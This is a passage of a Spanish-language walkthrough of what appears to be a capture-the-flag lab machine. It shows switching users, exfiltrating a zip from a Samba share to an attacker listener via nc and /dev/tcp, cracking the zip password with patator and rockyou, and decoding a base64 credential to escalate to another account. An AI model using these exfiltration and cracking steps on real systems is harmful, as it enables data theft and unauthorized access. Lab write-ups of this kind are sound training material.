 Nos cambiamos al user **sambauser**:

```bash
passsamba@64a2dd61671c:~$ su sambauser
Password: 
sambauser@64a2dd61671c:/home/passsamba$ cd
sambauser@64a2dd61671c:~$ id
uid=1001(sambauser) gid=1001(sambauser) groups=1001(sambauser),100(users)
sambauser@64a2dd61671c:~$
```

Buscamos donde está ubicado el recurso compartido en el sistema:

```bash
sambauser@64a2dd61671c:/$ find / -name read_only_share 2>/dev/null
/srv/samba/read_only_share
```

Encontramos un fichero **secret.txt**. Nos lo pasamos a nuestra máquina, para ello nos ponemos a la escucha con **nc** redirigiendo la salida al fichero secret.txt y nos lo mandamos:

```bash
$ nc -nlvp 8888 > secret.zip
listening on [any] 8888 ...

sambauser@64a2dd61671c:~$ cat /srv/samba/read_only_share/secret.zip > /dev/tcp/172.18.0.1/8888
```

Con **patator** y el módulo **unzip_pass** obtenemos la contraseña del fichero zip: 

```bash
patator unzip_pass zipfile=secret.zip password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:code!=0
23:50:13 patator    INFO - code  size    time | candidate                          |   num | mesg
23:50:13 patator    INFO - -----------------------------------------------------------------------------
23:50:16 patator    INFO - 0     82     0.006 | qwert
```

Lo descomprimimos:

```bash
$ 7z x secret.zip

$ cat secret.txt
root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==
```

Y desciframos la clave:

```bash
echo 'cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==' | base64 -d
passwordbadsecureultra
```

Nos movemos a **root-false**:

```bash
sambauser@64a2dd61671c:~$ su root-false
Password: 
root-false@64a2dd61671c:/home/sambauser$ whoami
root-false
```
